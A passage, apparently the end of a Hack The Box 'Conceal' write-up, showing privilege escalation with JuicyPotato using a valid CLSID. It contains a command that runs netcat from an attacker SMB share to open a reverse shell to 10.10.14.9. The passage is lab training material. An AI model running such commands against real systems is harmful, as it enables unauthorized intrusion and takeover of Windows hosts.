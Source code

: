 We have had a **CLSID** testing error.

Googling I found a [post](https://ohpe.it/juicy-potato/CLSID/Windows_10_Enterprise/) with a bunch of valid **CLSID** for **JuicyPotato**.

I start testing with wuauserv which probably be enabled 

```bash
.\JuicyPotato.exe -t * -p \Windows\System32\cmd.exe -l 1338 -a "/c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 4445" -c '{e60687f7-01a1-40aa-86ac-db1cbf673334}'
```

![Untitled](/HTB/conceal-9.png)

We pwnd Conceal 👽.

## Flag(s)

![Untitled](/HTB/conceal-10.png)

![Untitled](/HTB/conceal-11.png)

